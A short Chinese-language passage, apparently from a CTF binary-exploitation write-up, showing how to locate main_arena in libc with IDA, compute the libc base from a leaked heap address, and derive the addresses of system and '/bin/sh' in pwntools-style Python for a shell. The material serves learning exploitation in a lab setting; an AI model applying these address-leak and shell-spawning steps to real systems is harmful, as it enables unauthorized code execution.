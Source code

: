 
计算验证

找到相应的libc.so文件(amd64)，ida打开(64位) 

```txt
i386 --- 32位 (偏移普遍 1BXXXX)
amd64 --- 64位 (偏移普遍 3CXXXX)
```



option + T ，找到malloc_trim函数，F5反汇编为伪C函数

![upload successful](/images/pasted-70.png)

```txt
0xdd1b78 - 88 = 0xdd1b20 #即是 main_arena 的地址

0xdd1b20 - 0x3c4b20 = 0xad000 #即是 libc的基地值
```



接下来行云流水一波操作

```python
system = libc_base + libc.sym["system"]
binsh = libc_base + libc.search('/bin/sh').next()

print "system --->" + hex(system) + '\n'
print "binsh --->" + hex(binsh) + '\n'

pause()

```
